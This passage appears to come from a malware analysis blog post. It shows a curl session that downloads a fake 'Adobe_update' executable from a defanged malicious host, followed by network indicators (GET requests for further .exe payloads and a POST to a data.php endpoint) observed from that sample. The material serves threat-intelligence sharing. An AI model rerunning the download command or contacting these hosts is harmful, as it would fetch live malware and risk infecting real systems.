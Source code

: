 	{ [data not shown]
	100     3  100     3    0     0      2      0  0:00:01  0:00:01 --:--:--     2
	Closing connection 0
 ---
#### Successful Command
	curl -vA "Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.2; WOW64; Trident/6.0)" -L "hxxp://TUGRAHOTELS[.]COM/get.php?dgfdfg=0.5332026502583176&key=f5" > bad
	
	% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
								   Dload  Upload   Total   Spent    Left  Speed
	0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 159.253.42.153...
	Connected to TUGRAHOTELS.COM (159.253.42.153) port 80 (#0)
	GET /get.php?dgfdfg=0.5332026502583176&key=f5 HTTP/1.1
	User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.2; WOW64; Trident/6.0)
	Host: TUGRAHOTELS[.]COM
	Accept: */*
	
	HTTP/1.1 200 OK
	Content-Type: application/x-msdownload
	Content-Disposition: inline; filename=Adobe_update-ZLFNDKIGUO7.exe
	Date: Tue, 11 Aug 2015 21:03:35 GMT
	Accept-Ranges: bytes
	Server LiteSpeed is not blacklisted
	Server: LiteSpeed
	Connection: close
	
	{ [data not shown]
	100  214k    0  214k    0     0  89872      0 --:--:--  0:00:02 --:--:-- 89872
	Closing connection 0

Unfortunately, I was only able to get the network indicators below from the executable and none from the pdf file. I am working on beefing up my sandboxing environment to better handle situations like this but until then I will have to leave this post as is for now. Hopefully I can provide an update on the malware family as well as any further OSINT I find. Please feel free to contact me about the analysis or any questions you have.

#### Adobe_update-YXXQ1RX4IL6LV2M.exe Analysis
	GET hxxp://109.120.142.168:80/ac33/b/btc.exe
	GET hxxp://109.120.142.168:80/ac33/p/pc.exe
	GET hxxp://109.120.142.168:80/ac33/g/gc.exe
	GET hxxp://109.120.142.168:80/ac33/bk/bkc.exe
	POST hxxp://109.120.180.29:80/intro/data.php
	Server IP: 109.120.180.29

	GET hxxp://constitution.org:80/usdeclar.txt
	Server IP: 54.175.58.135
